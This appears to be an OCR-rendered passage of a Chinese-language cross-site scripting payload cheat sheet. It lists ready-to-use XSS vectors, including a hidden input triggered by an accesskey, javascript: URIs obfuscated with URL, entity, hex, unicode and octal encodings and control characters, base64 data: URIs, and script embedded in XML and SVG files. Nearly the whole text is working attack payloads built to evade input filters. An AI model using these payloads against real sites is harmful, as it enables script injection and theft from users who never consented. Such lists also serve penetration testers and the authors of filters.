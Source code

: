   	<script src=14.rs>
  #### 隐藏在输入框中的 XSS
  	<input type="hidden" accesskey="X" onclick="alert(1)">
  	使用CTRL+SHIFT+X触发
  #### 带有 JavaScript 的 XSS
  	javascript:prompt(1)
  	
  	%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341
  	
  	&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41
  	
  	\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
  	\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
  	\152\141\166\141\163\143\162\151\160\164\072alert(1)
  	
  	java%0ascript:alert(1)   - LF (\n)
  	java%09script:alert(1)   - Horizontal tab (\t)
  	java%0dscript:alert(1)   - CR (\r)
  	
  	\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
  	
  	javascript://%0Aalert(1)
  	javascript://anything%0D%0A%0D%0Awindow.alert(1)
  #### 带有data的 XSS
  	data:text/html,<script>alert(0)</script>
  	data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
  	<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
  #### 文件中的 XSS
  ##### XML CDATA
  	<name>
  	  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
  	</name>
  ##### XML 中的 XSS
	<html>
	<head></head>
	<body>
	<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
	</body>
	</html>
  ##### SVG 中的 XSS
	<?xml version="1.0" standalone="no"?>
	<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
	
	<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
	  <script type="text/javascript">
	    alert(document.domain);
	  </script>
	</svg>
  ##### SVG 中的 XSS（短）
	<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
	